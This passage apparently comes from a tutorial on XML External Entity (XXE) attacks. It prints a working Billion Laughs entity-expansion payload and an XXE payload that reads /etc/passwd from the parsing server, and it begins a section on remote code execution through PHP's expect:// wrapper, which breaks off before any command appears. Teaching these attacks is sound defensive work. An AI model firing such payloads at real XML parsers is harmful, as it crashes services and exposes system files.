 And there are others. The only limitation is in the imagination to abuse the URI.

### Billion Laughs Attack

The Billion Laughs Attack is a simple denial of service (DOS) style of attack
using XXEs. It works by using the expansion properties of the DTD language.

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

This incredibly small amount of code (< 1KB) will expand to take up
approximately 3 gigabytes of memory. This happens due to the exponential growth
that is happening due to how the entities are defined. The single `lol9` will
be replaced with 10 `lol8` entities. Which are each replaced by 10 `lol7`
entities. And so on it goes.

### File Exfiltration

This attacks uses the external nature of the ENTITY to include a file on the
local system. Remember this is local to the system that is parsing the XML.

```xml
<?xml version="1.0"?>
<!DOCTYPE hacks [
 <!ENTITY passwd SYSTEM "file:///etc/passwd" >
]>
<hacks>&passwd;</hacks>
```

When this file is parsed, the hacks tags would contain the content of the
servers passwd file.

### Remote Code Execution

If the server that has this vulnerability is php and has the expect plugin
installed, it may be open to even more insidious attacks. The expect pluginis
designed to allow for a php application to run command line commands and
interact with them. The plugin also allows for using the `expect://` filter in
a URI. Which means that it can be used in the XXE attack.
